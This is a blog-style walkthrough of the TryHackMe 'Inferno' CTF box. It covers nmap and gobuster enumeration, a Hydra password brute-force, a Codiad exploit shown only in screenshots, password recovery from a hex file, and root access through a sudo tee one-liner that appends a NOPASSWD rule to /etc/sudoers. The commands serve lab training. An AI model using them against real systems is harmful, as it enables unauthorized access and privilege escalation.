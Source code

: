 ```yaml
---
title: "Inferno TryHackMe"
layout: post
date: 2023-10-21 19:00
tag: 
- TryHackMe
- Pentesting
- Inferno
- Linux
- CTF
- Meduim
image: https://tryhackme-images.s3.amazonaws.com/room-icons/04838068cabd2452b322e06418cce864.png
headerImage: true
writeups: true
hidden: true # don't count this post in blog pagination
description: "A meduim TryHackMe box, with basic web enumeration and API fuzzing."
category: project
author: johndoe
externalLink: false
star: false
---
```


# Overview

A meduim real Life machine + CTF.

---
# Nmap

```bash
nmap -A -T4 10.10.144.11   
Starting Nmap 7.91 ( https://nmap.org ) at 2023-08-19 13:05 +01
Nmap scan report for 10.10.144.11
Host is up (0.18s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d7:ec:1a:7f:62:74:da:29:64:b3:ce:1e:e2:68:04:f7 (RSA)
|   256 de:4f:ee:fa:86:2e:fb:bd:4c:dc:f9:67:73:02:84:34 (ECDSA)
|_  256 e2:6d:8d:e1:a8:d0:bd:97:cb:9a:bc:03:c3:f8:d8:85 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Dantes Inferno
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I used the common.txt wordlist but I found nothing, then I used the meduim.txt and found the */inferno* endpoint which needed an authentification :

# Gobuster

```bash
gobuster dir -u http://10.10.144.11 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.144.11
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/08/19 13:14:59 Starting gobuster in directory enumeration mode
===============================================================
/inferno              (Status: 401) [Size: 459]
```

The only way was to bruteforce it using **Hydra** :

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.144.11 http-get /inferno
[80][http-get] host: 10.10.131.118   login: admin   password: dante1
```

Valid combination found : **admin:dante1**

![!\[\[Pasted image 20230819133810.png\]\]](<../../../assets/images/THMPics/Pasted image 20230819133810.png>)

The user has used the same credentials found before (**admin:dante1**).

<p>I saw the title of the webpage 'Codiad' and I went to look for possible exploits :</p>

![!\[\[Pasted image 20230819141402.png\]\]](<../../../assets/images/THMPics/Pasted image 20230819141402.png>)

![!\[\[Pasted image 20230819135144.png\]\]](<../../../assets/images/THMPics/Pasted image 20230819135144.png>)

Now I'm in as www-data :

![!\[\[Pasted image 20230819135158.png\]\]](<../../../assets/images/THMPics/Pasted image 20230819135158.png>)

![!\[\[Pasted image 20230819135133.png\]\]](<../../../assets/images/THMPics/Pasted image 20230819135133.png>)

# www-data -> dante


I found a dat file in */home/dante/Downloads* which contains an encoded hex string :

![!\[\[Pasted image 20230819135823.png\]\]](<../../../assets/images/THMPics/Pasted image 20230819135823.png>)

The decoded output contains the user dante's password :

![Alt text](<../../../assets/images/THMPics/Pasted image 20230819135800.png>)

**dante : V1rg1l10h3lpm3**

Now I'm in as *dante* :

![!\[\[Pasted image 20230819135948.png\]\]](<../../../assets/images/THMPics/Pasted image 20230819135948.png>)

# PE

![!\[\[Pasted image 20230819140016.png\]\]](<../../../assets/images/THMPics/Pasted image 20230819140016.png>)

We see in the output of *sudo -l* that dante can run */usr/bin/tee* as root, **GTFObins** will helps us to exploit that:

[https://gtfobins.github.io/gtfobins/tee](https://gtfobins.github.io/gtfobins/tee)

```bash
echo 'dante ALL=(ALL) NOPASSWD:ALL' | sudo /usr/bin/tee -a /etc/sudoers
```

BOOM I'm root!

And now we can read the root flag and Voilà :

![!\[\[Pasted image 20230819141116.png\]\]](<../../../assets/images/THMPics/Pasted image 20230819141116.png>)

<br/>

# MACHINE PWNED!

<br/>

And that was it, I hope you enjoyed the writeup. If you have any questions you can [Contact Me](https://www.linkedin.com/in/hichamouardi).

<p>Happy Hacking!</p>